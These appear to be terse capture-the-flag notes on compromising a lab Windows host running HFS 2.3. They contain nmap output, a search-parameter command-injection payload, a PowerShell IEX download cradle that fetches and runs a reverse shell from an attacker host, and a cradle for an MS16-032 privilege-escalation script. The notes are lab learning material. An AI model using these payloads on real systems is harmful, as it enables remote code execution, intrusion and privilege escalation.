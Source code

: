 $ nmap -sC -sV 10.10.10.8         
Starting Nmap 7.92 ( https://nmap.org ) at 2023-02-17 12:38 EST
Nmap scan report for 10.10.10.8
Host is up (0.28s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
80/tcp open  http    HttpFileServer httpd 2.3
|_http-server-header: HFS 2.3
|_http-title: HFS /
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows


default rejetto scipts dont work

`http://10.10.10.8/?search=%00{.+exec|cmd.exe+/c+ping+/n+1+10.10.14.10.}`

[](./rev.ps1)

http://10.10.10.8/?search=%00{.exec|C%3a\Windows\System32\WindowsPowerShell\v1.0\powershell.exe+IEX(New-Object+Net.WebClient).downloadString('http%3a//10.10.14.19:8000/rev.ps1').}

![](20230217135239.png)  

got a connect back

privilege escalations

IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.19:8000/ms16-32.ps1')

but ms 16 32 didnot wokr

need to donwload sherlock first
